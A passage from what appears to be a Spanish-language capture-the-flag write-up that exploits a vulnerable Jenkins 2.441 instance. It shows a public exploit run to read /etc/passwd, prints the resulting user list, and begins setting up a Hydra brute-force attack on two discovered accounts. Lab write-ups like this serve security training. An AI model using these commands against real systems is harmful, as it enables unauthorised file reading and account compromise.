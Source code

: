 Vamos a ver si la version `2.441` de `jenkins` es vulnerable, pero vemos que si lo es, por lo que dejare el `PoC` en el siguiente link:

URL = [Exploit Jenkins](https://www.exploit-db.com/exploits/51993)

### Exploit

Si nos lo descargamos, lo tendremos que utilizar de la siguiente forma:

```shell
python3 51993.py -u http://<IP>:8080 -p /etc/passwd
```

Info:

```
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```

Por lo que vemos funciona y hemos listado el archivo `passwd`.

### Hydra

Vamos a intentar tirar fuerza bruta a los 2 usuarios que hemos encontrado:

> users.txt

```
bobby
pinguinito
```
